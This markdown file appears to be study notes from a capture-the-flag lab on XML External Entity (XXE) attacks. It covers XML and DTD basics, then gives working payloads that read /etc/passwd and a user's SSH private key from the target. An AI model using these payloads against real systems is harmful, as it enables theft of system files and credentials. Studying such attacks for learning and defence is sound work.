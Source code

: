 # XML External Entity (XXE)

Note:
- XXE vulnerabilities attack is a vulnerability that allows attackers abuse/interfere an application's proccessing of XML data, a bit  similar to SQL injection.
- There are two types XXE attacks, in-band and out-band XXE.
- In-band XXE means attacker can receive immediate response to the XXE payload
- Out-band/blind XXE means attacker need to reflect it somewhere such as their own web/live server in order to see the response of XXE payload.


## eXtensible Markup Language (XML)

XML is a markup language that commonly used to transfer data between browser and server like json.

XML has a set of rule for encoding documents in a format that is both readable by human and machine.

### Why XML?
- Independent from programming language and platform
- XML document allows validation using DTD and Schema, free from syntax error.

### Structure of XML:

XML Prolog - Not compulsory but good practice
```
<?xml version="1.0" encoding="UTF-8"?>
```
Every XML document must contain a `ROOT` element. For example:

```
<?xml version="1.0" encoding="UTF-8"?>
<mail>
   <to>falcon</to>
   <from>feast</from>
   <subject>About XXE</subject>
   <text>Teach about XXE</text>
</mail>
```

`<mail>` is root element
`<to>`,`<from>`,`<subject>`,`<text>` are children of `<mail>`

Without root element, XML document would be considered as invalid XML. 

XML tags are case sensitive. It can also use attributes.

```
<text category="message"> attributes added </text>
```

## Document Type Definition (DTD)

A DTD defines the stucture and attributes of an XML document.

Example DTD:
```
<!DOCTYPE note [ <!ELEMENT note (to,from,heading,body)> <!ELEMENT to (#PCDATA)> <!ELEMENT from (#PCDATA)> <!ELEMENT heading (#PCDATA)> <!ELEMENT body (#PCDATA)> ]>
```

Example note that uses DTD for validation:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
    <to>falcon</to>
    <from>feast</from>
    <heading>hacking</heading>
    <body>XXE attack</body>
</note>
```

## XXE Payload


Example payloads:

1) Define entity called name, assign with feast. Use it on `<lastName>`
```
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>
```
2) Read file from system, `/etc/passwd`
```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

## Practical 

Payload 1
![2261fcc309d3f09b8b65e0dd99209572.png](./_resources/870c15daeee1430baebee8495b4d87ef.png)

Payload 2
![80a057c4fcc8c58b886c5ea6d70fbe00.png](./_resources/3f7df21b8f2d445db7f9a9948a417236.png)


> 1000 in /etc/passwd means a user account. So, ssh key should be located on /home/username/.ssh/id_rsa

Payload 2: Read SSH key

```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///home/falcon/.ssh/id_rsa'>]>
<root>&read;</root>
```

![c2cd7114f3cae63840211ecf2f92a5d6.png](./_resources/e97fedec4521426595e39e245f2936bb.png)


## Questions

### XML
![8ce58954700802ca5f8dd2efcd3f45d0.png](./_resources/45e03beafc3347fca6b5a8d64921ca15.png)

### DTD
![d8501f7b3b80080785d93b1c5af8fbed.png](./_resources/51edff5108434f6da4d827314b242a5d.png)

### Exploiting

![3e2bfa1f441861816e8d9177eec73157.png](./_resources/cd0ed8bbb655487c8bf97bb5942c2569.png)